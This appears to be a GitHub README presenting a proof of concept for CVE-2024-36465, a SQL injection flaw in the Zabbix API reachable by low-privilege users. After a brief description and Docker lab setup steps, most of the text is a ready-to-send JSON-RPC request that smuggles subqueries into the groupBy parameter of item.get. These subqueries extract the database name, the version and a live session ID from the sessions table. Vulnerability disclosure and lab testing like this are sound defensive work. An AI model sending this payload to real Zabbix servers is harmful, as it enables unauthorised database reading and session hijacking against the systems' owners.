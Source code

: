 # CVE-2024-36465-Poc

## SQL injection in Zabbix API (CVE-2024-36465)

### Description
A low privilege (regular) Zabbix user with API access can use SQL injection vulnerability in include/classes/api/CApiService.php to execute arbitrary SQL commands via the groupBy parameter.

### Link
https://support.zabbix.com/browse/ZBX-26257

### Build:
Link: https://wiki.nhanhoa.com/kb/zabbix-cai-dat-zabbix-7-0-server-bang-docker-container/

Step 1: 
``` 
docker pull tudv1989/zabbix70:latest
```
Step 2:
```
docker run -itd --name=zabbix -p 80:80 -p 10051:10051 -e DBNAME=zabbixdb -e DBUSER=zabbix_username -e DBPASSWD=zabbix_password tudv1989/zabbix70
```


# Poc

```
POST /api_jsonrpc.php HTTP/1.1
Host: <Host>
Authorization: Bearer {{hash}}
Content-Length: 240
Content-Type: application/json;charset=UTF-8

{
 "jsonrpc": "2.0",
    "method": "item.get",
    "params": {
        "output": ["itemid", "name"],
        "groupBy": ["hostid,(select database()),(select version()),(SELECT sessionid FROM sessions LIMIT 0,1)"]
    },
    "id":0
}

```
![image](https://github.com/user-attachments/assets/f4543415-fc6e-4e13-860c-481c89b2c58d)
